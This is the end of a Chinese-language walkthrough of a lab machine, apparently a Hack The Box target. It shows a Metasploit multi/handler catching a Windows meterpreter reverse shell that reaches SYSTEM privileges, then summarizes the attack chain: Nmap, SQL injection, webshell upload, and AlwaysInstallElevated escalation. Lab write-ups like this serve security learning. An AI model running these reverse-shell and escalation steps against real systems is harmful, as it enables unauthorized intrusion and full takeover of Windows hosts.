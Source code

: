 收到反弹shell

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.4
set LPORT 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.4:4444 
[*] Sending stage (175174 bytes) to 10.10.10.239
[*] Meterpreter session 1 opened (10.10.14.4:4444 -> 10.10.10.239:53222 ) at 2022-01-24 02:33:20 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

已经是SYSTEM权限。

# 总结

> 通过 Nmap 识别出目标服务器运行的服务，从 exploit-db 检索出 CVE 漏洞，利用 SQL 注入成功进入后台控制端页面。上传 webshell 得到一个 reverse shell 立足点。
> 
> 使用 winPEAS 工具收集服务器信息，发现 AlwaysInstallElevated 开启。配合 Metasploit Framework 成功完成权限提升。